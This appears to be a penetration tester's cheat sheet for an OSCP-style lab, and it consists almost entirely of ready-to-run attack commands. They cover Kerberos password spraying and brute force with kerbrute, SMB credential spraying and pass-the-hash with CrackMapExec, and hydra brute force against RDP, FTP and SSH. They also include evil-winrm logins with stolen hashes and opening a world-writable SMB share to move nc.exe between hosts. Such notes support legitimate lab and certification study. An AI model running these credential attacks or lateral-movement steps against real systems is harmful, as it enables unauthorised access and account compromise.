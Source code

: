 #### Kerberos
**Password Spray**
`proxychains -q /home/kali/go/bin/kerbrute passwordspray -d oscp.exam users.txt hghgib6vHT3bVWf --dc 10.10.103.152 -vvv`
**Bruteforce**
`proxychains -q /home/kali/go/bin/kerbrute bruteuser -d oscp.exam jeffadmin passwords.txt --dc 10.10.103.152 -vvv`

#### SMB
`proxychains -q /home/kali/.local/bin/cme smb 172.16.201.10-14 172.16.201.82-83 -u users.txt -p passwords.txt -d medtech.com --continue-on-success`

`proxychains -q /home/kali/.local/bin/cme smb 172.16.201.10-14 172.16.201.82-83 -u users.txt -p passwords.txt --continue-on-success`

`cme smb 192.168.201.10 -u users.txt -H '<HASH>' --continue-on-success`

`cme smb 192.168.201.10 -u users.txt -p passwords.txt --continue-on-success --local-auth`

#### RDP
`hydra -V -f -l offsec -P /usr/share/wordlists/rockyou.txt rdp://192.168.232.218:3389 -u -vV -T 40 -I`

`hydra -V -f -L users.txt -P passwords.txt rdp://192.168.232.218 -u -vV -T 40 -I`

#### WinRM
`evil-winrm -i 192.168.201.10 -u jeffadmin -p 'password'`

`evil-winrm -i 192.168.201.10 -u jeffadmin -H 'HASH'`

#### FTP
`hydra -V -f -l offsec -P /usr/share/wordlists/rockyou.txt ftp://192.168.232.218:21 -u -vV -T 40 -I`

#### SSH
`hydra -V -f -l offsec -P /usr/share/wordlists/rockyou.txt ssh://192.168.232.218:22 -u -vV -T 40 -I`


## SMB Server (Windows)
If you can't move file from Kali to the internal network, you can create a new share on DMZ.
- Need Administrator+ on **M1**
- Make sure to transfer the files into C:\temp you want to host

**On M1:**
`mkdir C:\temp`

`New-SmbSHare -Name 'temp' -Path 'C:\temp' -FullAccess everyone`

**On M2:**
`net use \\10.10.10.20\temp`

`copy \\10.10.10.20\temp\nc.exe C:\nc.exe`


